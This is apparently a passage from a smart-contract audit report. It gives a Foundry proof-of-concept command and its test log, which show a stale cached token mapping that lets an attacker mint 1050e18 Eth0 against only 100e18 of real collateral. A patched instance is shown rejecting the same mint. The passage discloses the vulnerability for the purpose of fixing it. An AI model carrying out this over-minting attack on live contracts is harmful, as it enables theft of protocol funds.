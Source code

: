 When running the command: `forge test --match-path test/poc/PocStaleCachedDependency.t.sol -vvv`

The log output will show:
```bash
[⠆] Compiling...
[⠆] Compiling 1 files with Solc 0.8.20
[⠔] Solc 0.8.20 finished in 7.19s
Compiler run successful!

Ran 2 tests for test/poc/PocStaleCachedDependency.t.sol:PocStaleCachedDependencyTest
[PASS] testPocStaleCachedTokenMappingAllowsExcessiveMint() (gas: 10458071)
Logs:
  Registry updated to use _patchedTokenMappingInstance:  0x48fa7fF1A8336B98a5f69529a0b8e6d2e8F7B5b8
  --- Scenario: Exploiting _eth0Poc (uses STALE _vulnerableTokenMappingInstance) ---
  [Vulnerable Scenario] Initial balance of _tokenAPoc in Treasury:  100000000000000000000
  [Vulnerable Scenario] Initial balance of _tokenToRemovePoc in Treasury:  1000000000000000000
  Price of TokenA (used by vulnerable PoCEth0):  1000000000000000000
  Price of TokenToRemove (used by vulnerable PoCEth0):  1000000000000000000000
  Calculated backing with VULNERABLE mapping (_eth0Poc perspective):  1100000000000000000000
  [Patched Scenario] Current balance of _tokenAPoc in Treasury (for correct perspective):  100000000000000000000
  Calculated backing with PATCHED mapping (correct perspective):  100000000000000000000
  Attempting to mint amount:  1050000000000000000000
  Minter PoCEth0 balance BEFORE exploit mint:  0
  _eth0Poc total supply BEFORE exploit mint:  0
  Treasury _tokenAPoc balance BEFORE exploit mint:  100000000000000000000
  Treasury _tokenToRemovePoc balance BEFORE exploit mint:  1000000000000000000
  SUCCESS: Mint on _eth0Poc (stale cache) processed.
  Minter PoCEth0 balance AFTER exploit mint:  1050000000000000000000
  _eth0Poc total supply AFTER exploit mint:  1050000000000000000000
  Treasury _tokenAPoc balance AFTER exploit mint:  100000000000000000000
  Treasury _tokenToRemovePoc balance AFTER exploit mint:  1000000000000000000
  --- Scenario: Verifying with newEth0ForVerification (uses CORRECT _patchedTokenMappingInstance) ---
  New oracle (only TokenA) set for verification Eth0 instance:  0xb22A9d96b3155484d8bC3e0305Fb801845F388Ef
  Registry's TokenMapping is still _patchedTokenMappingInstance:  0x48fa7fF1A8336B98a5f69529a0b8e6d2e8F7B5b8
  Attempting to mint the SAME amount on newEth0ForVerification:  1050000000000000000000
  Attacker (_minterPoc) NewEth0ForVerification balance BEFORE mint attempt:  0
  NewEth0ForVerification total supply BEFORE mint attempt:  0
  Attacker (_minterPoc) NewEth0ForVerification balance AFTER reverted mint:  0
  NewEth0ForVerification total supply AFTER reverted mint:  0
  SUCCESS (as expected): Mint on newEth0ForVerification REVERTED.

[PASS] testSetup() (gas: 12950)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 15.94ms (6.03ms CPU time)

Ran 1 test suite in 31.02ms (15.94ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```

This log clearly shows that `_eth0Poc` (with its stale cache) successfully minted 1050e18 `Eth0` based on the outdated collateral calculation of `1100e18`, even though the correct backing according to the latest configuration was only `100e18`. Conversely, `newEth0ForVerification` (which used the latest configuration) correctly rejected the same mint attempt.
